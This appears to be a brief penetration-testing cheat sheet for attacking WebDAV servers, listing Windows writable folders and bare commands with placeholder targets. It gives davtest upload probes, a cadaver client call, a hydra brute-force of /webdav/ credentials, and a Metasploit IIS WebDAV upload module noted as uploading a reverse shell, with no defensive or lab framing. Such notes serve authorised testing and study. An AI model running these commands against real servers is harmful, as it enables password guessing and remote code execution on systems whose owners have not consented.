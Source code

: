 
# Windows writable folders


```
C:\Windows\Temp
C:\Program data
```


# Davtest


```bash

davtest -url http://IP

davtest -auth USER:PASS -url http://IP

```


# cadaver

```bash
cadaver http://WEBSITE/webdav/
```



# Brute force
```bash

hydra -L WORDLIST -P WORDLIST IP http-get /webdav/

```


# Metasploit

```ruby


use exploit/windows/iis/iis_webdav_upload_asp # upload rev shell 

set PATH /webdav/metasploit.asp

```